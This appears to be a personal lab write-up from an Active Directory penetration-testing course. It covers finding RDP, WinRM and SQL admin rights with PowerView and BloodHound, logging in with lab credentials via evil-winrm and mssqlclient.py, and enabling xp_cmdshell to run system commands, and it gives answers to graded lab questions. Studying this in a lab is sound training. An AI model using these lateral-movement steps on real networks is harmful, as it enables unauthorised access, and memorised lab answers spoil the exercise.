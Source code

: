 # 🦑 Privileged Access

## Privileged Access

### Remote Desktop

Typically, if we have control of a local admin user on a given machine, we will be able to access it via RDP. Sometimes, we will obtain a foothold with a user that does not have local admin rights anywhere, but does have the rights to RDP into one or more machines.

Using PowerView, we could use the [Get-NetLocalGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Get-NetLocalGroupMember/) function to begin enumerating members of the `Remote Desktop Users` group on the host

```powershell-session
PS C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"

ComputerName : ACADEMY-EA-MS01
GroupName    : Remote Desktop Users
MemberName   : INLANEFREIGHT\Domain Users
<SNIP>
```

all Domain Users (meaning `all` users in the domain) can RDP to this host.

**Checking the Domain Users Group's Local Admin & Execution Rights using BloodHound**

<figure><img src="../../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

Once we control a user, we can check what remote access rights they have either directly or inherited via group membership under `Execution Rights` on the `Node Info` tab.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>or <code>Analysis</code> tab and run the pre-built queries <code>Find Workstations where Domain Users can RDP</code> or <code>Find Servers where Domain Users can RDP</code>.</p></figcaption></figure>

### WinRM

We can again use the PowerView function `Get-NetLocalGroupMember` to the `Remote Management Users` group.

```powershell-session
PS C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```

We can also utilize this custom `Cypher query` in BloodHound to hunt for users with this type of access. This can be done by pasting the query into the `Raw Query` box at the bottom of the screen and hitting enter.

```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

**Adding the Cypher Query as a Custom Query in BloodHound**

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Establishing WinRM Session from Windows**

We can use the [Enter-PSSession](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-7.2) cmdlet using PowerShell from a Windows host.

```powershell
PS C:\htb> $password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
PS C:\htb> $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred

[ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> hostname
ACADEMY-EA-MS01
[ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> Exit-PSSession
PS C:\htb> 
```

and on a linux host we can use `evil-winrm`

Install `evil-winrm ->`

```shell-session
ElFelixi0@htb[/htb]$ gem install evil-winrm
```

And to conect to the host with a set of valid credentials ->

```shell-session
ElFelixi0@htb[/htb]$ evil-winrm -i 10.129.201.234 -u forend
```

### SQL Server Admin

A way that you may find SQL server credentials other then via Kerberoasting (common) or others such as LLMNR/NBT-NS Response Spoofing or password spraying is using the tool [Snaffler](https://github.com/SnaffCon/Snaffler) to find web.config or other types of configuration files that contain SQL server connection strings

Here is a query for bloodhound to find `SQL Admin Rights` in the `Node Info` tab for a given user

```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can use our ACL rights to authenticate with the `wley` user, change the password for the `damundsen` user and then authenticate with the target using a tool such as `PowerUpSQL`, which has a handy [command cheat sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet). Let's assume we changed the account password to `SQL1234!` using our ACL rights. We can now authenticate and run operating system commands.

**Enumerating MSSQL Instances with PowerUpSQL**

```powershell-session
PS C:\htb> cd .\PowerUpSQL\
PS C:\htb>  Import-Module .\PowerUpSQL.ps1
PS C:\htb>  Get-SQLInstanceDomain
```

We could then authenticate against the remote SQL server host and run custom queries or operating system commands.

```powershell-session
PS C:\htb>  Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```

We can also authenticate from our Linux attack host using [mssqlclient.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py)

```shell-session
ElFelixi0@htb[/htb]$ mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
```

Then we can look at the commands we can launch on the SQL server like `enable_xp_cmdshell` to enable the [xp\_cmdshell stored procedure](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) which allows for one to execute operating system commands via the database if the account in question has the proper access rights.

```shell-session
SQL> enable_xp_cmdshell
```

Now we can run commands in the format `xp_cmdshell <command>`

```shell-session
xp_cmdshell whoami /priv
```

_**What other user in the domain has CanPSRemote rights to a host?**_

So i start by launching sharphound on my windows machine, then downloading it to my attackbox via a evil-winrm session, then i launch bloodhound and upload all the data ->

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

_I enter this raw query ->_

```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption><p>BDAVIS</p></figcaption></figure>

_**What host can this user access via WinRM? (just the computer name)**_

```
ACADEMY-EA-DC01
```

_**Leverage SQLAdmin rights to authenticate to the ACADEMY-EA-DB01 host (172.16.5.150). Submit the contents of the flag at C:\Users\damundsen\Desktop\flag.txt.**_

_**We find the SQL admin rights ->**_

<figure><img src="../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

via a evil-winrm session i upload mssqlclient.exe to the RDP session and launch the attack

<figure><img src="../../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>
